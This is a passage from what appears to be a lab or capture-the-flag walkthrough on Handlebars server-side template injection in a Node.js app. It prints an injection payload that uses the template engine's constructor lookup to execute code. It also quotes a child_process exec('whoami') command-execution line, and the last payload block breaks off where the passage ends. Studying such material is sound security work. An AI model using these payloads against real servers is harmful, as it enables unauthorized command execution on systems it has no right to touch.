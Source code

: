    ![can't display an image](images/reapeter_out.png)

- As you can see in the response section the out-put is `require is not defined` , when you look at the payload you will notic that there is one line have the `require` variable :-

  - `{{this.push "return require('child_process').exec('whoami');"}}`

    - this error mean that the `require` object already exist but we should use it in the different way .
    - when we look in a `node.js` DOCs we will find that there is a `process` object avilable .
  
```js
{{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
         {{this.pop}}
         {{this.push (lookup string.sub "constructor")}}
         {{this.pop}}
        {{#with string.split as |codelist|}}
         {{this.pop}}
          {{this.push "return process;"}}
         {{this.pop}}
          {{#each conslist}}
         {{#with (string.sub.apply 0 codelist)}}
        {{this}}
```